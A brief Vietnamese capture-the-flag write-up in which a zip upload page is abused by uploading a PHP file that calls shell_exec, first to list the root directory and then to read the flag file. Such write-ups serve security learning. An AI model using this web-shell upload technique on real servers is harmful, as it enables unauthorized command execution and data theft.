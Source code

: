 ![image](../img/4.1.png)

start chall cho ta thấy danh sách file
![image](../img/4.2.png)

tại home.php chỉ cho phép upload file zip
upload 1 file zip có chứa file php nội dung như sau
```
<?
    echo shell_exec('ls /');
?>
```
![image](../img/4.3.png)

payload đọc flag

```
<?
    echo shell_exec('cat /flagXNY8H.txt');
?>
```

![image](../img/4.4.png)

